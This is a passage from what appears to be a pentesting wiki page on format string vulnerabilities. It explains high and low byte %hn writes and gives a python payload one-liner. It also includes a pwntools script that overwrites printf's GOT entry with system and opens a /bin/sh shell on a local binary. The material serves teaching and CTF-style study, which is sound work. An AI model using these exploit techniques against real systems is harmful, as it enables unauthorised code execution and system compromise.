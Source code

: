 * **HOB** is called to the 2 higher bytes of the address
* **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

You can find a **template** to prepare a exploit for this kind of vulnerability in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Or this basic example from [**here**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## Format Strings to BOF

It's possible to abuse the write actions of a format string vulnerability to **write in addresses of the stack** and exploit a **buffer overflow** type of vulnerability.
